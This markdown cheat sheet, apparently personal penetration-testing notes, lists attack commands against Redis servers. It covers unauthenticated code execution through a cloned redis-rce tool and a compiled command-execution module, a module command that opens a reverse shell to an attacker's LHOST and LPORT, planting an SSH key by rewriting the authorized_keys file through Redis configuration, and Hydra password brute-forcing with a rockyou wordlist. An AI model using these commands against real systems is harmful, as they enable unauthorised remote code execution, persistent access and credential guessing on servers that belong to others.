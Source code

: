 # Redis

- Authenticate Redis
```
redis-cli -h 192.168.181.69 -p 6379
```

- Configuration File Default Location
```
/etc/redis/redis.conf
```


## Redis 4.x / 5.x - Unauthenticated Code Execution [linux/redis/redis_replication_cmd_exec]

```
git clone https://github.com/Ridter/redis-rce
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand
make
python3 redis-rce.py -r <remote-ip> -p <port> -L <local-ip> -f ../RedisModules-ExecuteCommand/module.so
```

## Load Module
```
MODULE LOAD /path/to/module.so
system.exec "whoami"
system.rev LHOST LPORT
```
[HINT](https://www.youtube.com/watch?v=LlzpyGcA-ak&ab_channel=Tech69)

## Write to File
```
cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key
config set dir /var/lib/redis/.ssh
config set dbfilename "authorized_keys"
save
```


## Hydra
```
hydra -P /usr/share/wordlists/rockyou.txt redis://192.168.176.166
```
